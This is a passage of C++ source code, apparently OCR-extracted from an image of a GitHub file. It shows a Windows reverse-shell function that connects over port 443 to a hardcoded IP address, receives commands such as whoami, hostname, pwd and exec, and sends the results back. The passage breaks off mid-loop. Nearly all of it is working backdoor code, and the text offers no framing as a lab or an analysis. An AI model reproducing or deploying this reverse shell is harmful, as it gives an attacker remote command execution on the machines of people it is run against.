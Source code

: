 ```cpp
	return 0;
}

void RevShell() {

	WSADATA wsaver;
	WSAStartup(MAKEWORD(2, 2), &wsaver);
	SOCKET tcpsock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_addr.s_addr = inet_addr("172.174.142.1");
	addr.sin_port = htons(443);

	if (connect(tcpsock, (SOCKADDR *) &addr, sizeof(addr)) == SOCKET_ERROR) {
		closesocket(tcpsock);
		WSACleanup();
		exit(0);
	}
	else {
		char CommandReceived[DEFAULT_BUFLEN] = "";
		while (true) {
			int Result = recv(tcpsock, CommandReceived, DEFAULT_BUFLEN, 0);
			if ((strcmp(CommandReceived, "whoami") == 0)) {
				char buffer[257] = "";
				whoami(buffer);
				strcat(buffer, "\n");
				send(tcpsock, buffer, strlen(buffer) + 1, 0);
				memset(buffer, 0, sizeof(buffer));
			}
			else if ((strcmp(CommandReceived, "hostname") == 0)) {
				char buffer[257] = "";
				hostname(buffer);
				strcat(buffer, "\n");
				send(tcpsock, buffer, strlen(buffer) + 1, 0);
				memset(buffer, 0, sizeof(buffer));
			}
			else if ((strcmp(CommandReceived, "pwd") == 0)) {
				char buffer[257] = "";
				pwd(buffer);
				strcat(buffer, "\n");
				send(tcpsock, buffer, strlen(buffer) + 1, 0);
				memset(buffer, 0, sizeof(buffer));
			}
			else if ((strcmp(CommandReceived, "exit") == 0)) {
				closesocket(tcpsock);
				WSACleanup();
				exit(0);
			}
			else {
				char splitval[DEFAULT_BUFLEN] = "";
				for (int i = 0; i < (*(&CommandReceived + 1) - CommandReceived); i++) {
					if (CommandReceived[i] == *" ") {
						break;
					}
					else {
						splitval[i] = CommandReceived[i];
					}
				}
				if ((strcmp(splitval, "exec") == 0)) {
					char CommandExec[DEFAULT_BUFLEN] = "";
					int j = 0;
					for (int i = 5; i < (*(&CommandReceived + 1) - CommandReceived); i++) {
						CommandExec[j] = CommandReceived[i];
```